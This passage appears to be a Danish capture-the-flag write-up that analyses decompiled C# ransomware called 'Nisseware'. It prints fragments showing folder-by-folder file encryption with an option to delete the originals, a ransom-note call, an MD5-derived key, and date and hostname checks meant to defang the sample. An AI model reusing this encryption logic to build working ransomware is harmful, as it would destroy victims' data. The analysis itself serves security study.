 ```cs
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "blueprints_legetøj"),
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "produkt_salg"),
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "fælles_installationsfiler")
    };

    string[] array = folders;
    foreach (string folder in array) {
        if (debug) {
            Console.WriteLine("Encrypting files in folder " + folder + "...");
        }
        string[] files = Directory.GetFiles(folder);
        string[] array2 = files;
        foreach (string file in array2) {
            EncryptFile(file, key, args.Contains("--delete-original"));
        }
    }

    if (debug) {
        Console.WriteLine("Nisseware has finished encrypting all files.");
    }

    GenerateRansomNote(key);
}
```

Det ser ud til, at `debug`-flaget sættes, hvis man giver programmet argumentet `--debug`, når det køres, og at det flag slår en masse debug prints til undervejs.
Herefter læses et password fra `stdin`, som gives som argument til `GetMD5Hash()`, og resultatet bruges som `key` - dvs. umiddelbart er krypteringsnøglen til programmet et MD5 hash af input passwordet, hvilket kan bekræftes med en inspektion af den funktion:

```cs
private static byte[] GetMD5Hash(string s) {
    if (debug) {
        Console.WriteLine("Generating MD5 hash for string " + s + "...");
    }
    using (MD5 md5 = MD5.Create()) {
        byte[] b = Encoding.UTF8.GetBytes(s);
        return md5.ComputeHash(b);
    }
}
```

Herefter kaldes `DefangMalware()`, der er designet til at gøre ransomwaren mere sikker, hvis nogen skulle få lyst til at køre den selv eller lave noget dynamisk analyse:

```cs
private static void DefangMalware() {
    if (debug) {
        Console.WriteLine("Defanging malware...");
    }

    if (DateTime.Now >= new DateTime(DateTime.Now.Year, 11, 30)) {
        if (debug) {
            Console.WriteLine("Timestamp is too late");
        }
        ExitWithWarning();
    }

    string computerName = Dns.GetHostName();
    Console.WriteLine("Computer name: " + computerName);
    if (computerName != "LegetøjROs") {
```